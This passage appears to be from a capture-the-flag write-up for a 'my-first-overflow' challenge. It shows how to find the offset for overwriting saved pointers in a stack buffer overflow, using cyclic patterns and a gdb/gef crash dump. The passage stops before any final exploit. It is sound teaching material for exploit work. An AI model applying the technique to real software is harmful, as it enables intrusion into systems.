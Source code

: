 **Note :** rbp is the frame pointer on x86_64. In your generated code, it gets a snapshot of the stack pointer (rsp) so that when adjustments are made to rsp (i.e. reserving space for local variables or pushing values on to the stack), local variables and function parameters are still accessible from a constant offset from rbp. 

 - **Number of characters needed to overwrite pointers:** Next thing to do is to get the number of characters needed to overwrite the `rbp` pointer, to do that we will use `gdb` and `cyclyc` tools :

Fist, generate and random length string using `cyclic 200`. Note that the given lengh is bigger then the read buffer size

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

After that, we run the `my-first-overflow` binary in `gdb` and give it our generated string. Notice in the `rbp` pointer the string part specified as nesxt instruction address : 

```
gef➤  r
Starting program: /home/rivench/Documents/CTFs/devfest_Cybersecurity_2k22/my_first_pwn/challenge/my-first-overflow 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fc6000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
My buffer can only hold 32 characters, I really wonder what would happen if you sent more than that...
Enter your input: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x0000555555555259 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x007ffff7df4a80  →  0x00000000fbad208b
$rdx   : 0x1               
$rsp   : 0x007fffffffdce8  →  "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x1               
$rdi   : 0x007ffff7df6a60  →  0x0000000000000000
$rip   : 0x00555555555259  →  <main+96> ret 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x007ffff7c09c68  →  0x000e0022000043b3
$r11   : 0x246             
$r12   : 0x007fffffffddf8  →  0x007fffffffe144  →  "/home/rivench/Documents/CTFs/devfest_Cybersecurity[...]"
$r13   : 0x005555555551f9  →  <main+0> push rbp
$r14   : 0x00555555557dd8  →  0x00555555555150  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x007ffff7ffd020  →  0x007ffff7ffe2c0  →  0x00555555554000  →   jg 0x555555554047
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdce8│+0x0000: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"      ← $rsp
0x007fffffffdcf0│+0x0008: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0x007fffffffdcf8│+0x0010: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
0x007fffffffdd00│+0x0018: "qaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabda[...]"
```